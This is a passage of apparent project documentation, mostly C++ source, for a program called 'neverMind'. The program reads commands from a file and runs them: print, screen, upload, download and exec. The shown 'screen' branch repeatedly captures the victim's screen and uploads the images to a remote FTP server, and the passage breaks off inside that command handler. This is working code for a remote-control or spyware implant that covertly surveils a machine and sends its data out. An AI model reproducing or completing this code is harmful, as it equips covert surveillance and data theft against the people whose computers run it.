 `compile(const std::string &file_path)`: this function compiles + executes commands from a file. it reads the file, splits each line into commands, and executes them.

```cpp
void neverMind::compile(const std::string &file_path)
    {
        std::string code = wrapper::read_file(file_path);
        std::stringstream ss_code(code);
        std::string line;
        while (std::getline(ss_code, line))
        {
            try {
                std::vector<std::string> spl_line;
                std::stringstream ss_line(line);
                std::string command;
                while (std::getline(ss_line, command, ' ')) {
                    spl_line.push_back(command);
                }
                execute(spl_line);
            }
            catch (...) {
                continue;
            }
        }
    }
```

`execute(const std::vector<std::string>& spl_line)`: this function executes the provided commands. it supports several commands like `print`, `screen`, `upload`, `download`, `exec`. each command performs a specific operation and writes the result to the output file.

```cpp
void neverMind::execute(const std::vector<std::string>& spl_line)
{
        try {
            std::string main_cmd = spl_line[0];
            if (main_cmd == "print") {
                if (spl_line.size() < 2) {
                    wrapper::append_file(output_path, "[!] error [!]\n\n");
                    return;
                }
                wrapper::append_file(output_path, "[>] " + spl_line[1] + " [<]\n\n");
            }
            else if (main_cmd == "screen") {
                if (spl_line.size() < 2) {
                    wrapper::append_file(output_path, "[!] error [!]\n\n");
                    return;
                }
                int counter = std::stoi(spl_line[1]);
                if (!ftp_connection.cd("screens")) {
                    ftp_connection.mkdir("screens");
                    ftp_connection.cd("screens");
                }
                for (int i = 0; i < counter; ++i)
                {
                    std::string screenshot_path = wrapper::screenshot(data_path);
                    Sleep(500);
                    ftp_connection.upload_file(screenshot_path, std::filesystem::path(screenshot_path).filename().u8string());
                    Sleep(1000);
                    wrapper::append_file(output_path, "[++] screenshots saved >> " + screenshot_path + " [++]\n\n");
                }
                ftp_connection.cd("../");
            }
```